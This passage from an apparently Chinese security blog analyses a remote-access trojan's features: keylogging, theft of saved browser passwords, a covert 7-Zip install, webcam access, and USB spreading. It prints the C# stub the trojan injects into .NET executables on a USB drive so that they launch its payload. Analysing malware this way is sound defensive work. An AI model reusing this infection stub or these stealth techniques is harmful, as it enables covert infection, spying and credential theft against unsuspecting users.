 实时获得目标主机键盘输入的消息和进程名称

通过hook的方式实现键盘记录

(3)Password Recovery

获得Firefox和Chrome浏览器中保存的密码

技术细节可参考之前的文章[《渗透技巧——导出Firefox浏览器中保存的密码》](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-%E5%AF%BC%E5%87%BAFirefox%E6%B5%8F%E8%A7%88%E5%99%A8%E4%B8%AD%E4%BF%9D%E5%AD%98%E7%9A%84%E5%AF%86%E7%A0%81/)和[《渗透技巧——导出Chrome浏览器中保存的密码》](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-%E5%AF%BC%E5%87%BAChrome%E6%B5%8F%E8%A7%88%E5%99%A8%E4%B8%AD%E4%BF%9D%E5%AD%98%E7%9A%84%E5%AF%86%E7%A0%81/)

(4)File Manager

文件管理，还支持隐蔽安装7zip和对文件的压缩及解压缩

隐蔽安装7zip的方式：

在`%Temp%`目录新建文件夹7-Zip，释放文件7z.exe和7z.dll

(5)Process Manager

进程管理，支持查看进程和关闭进程

(6)Report Window

监控重要进程，当目标主机上运行指定进程时，控制端弹出提示消息

(7)Webcam

开启摄像头

### 3.Miscellaneous

(1)Bots Killer

清除自身进程在注册表HKLM和HKCU下`\Software\Microsoft\Windows\CurrentVersion\Run`和`Software\Microsoft\Windows\CurrentVersion\RunOnce`保存的项

(2)USB Spread

当目标主机连接U盘时，感染U盘中的文件

将木马客户端复制到U盘中并隐藏，默认保存的名称为LimeUSB.exe

修改U盘中所有使用.NET开发的exe文件，通过CSharpCodeProvider改变程序运行流程，添加以下代码：

```
using System;
using System.Diagnostics;
using System.Reflection;
using System.Runtime.InteropServices;

[assembly: AssemblyTrademark("%Lime%")]
[assembly: Guid("%Guid%")]

static class %LimeUSBModule%
{
    public static void Main()
    {
        try
        {
            System.Diagnostics.Process.Start(@"%File%");
        }
        catch { }
        try
        {
            System.Diagnostics.Process.Start(@"%Payload%");
        }
        catch { }
    }
```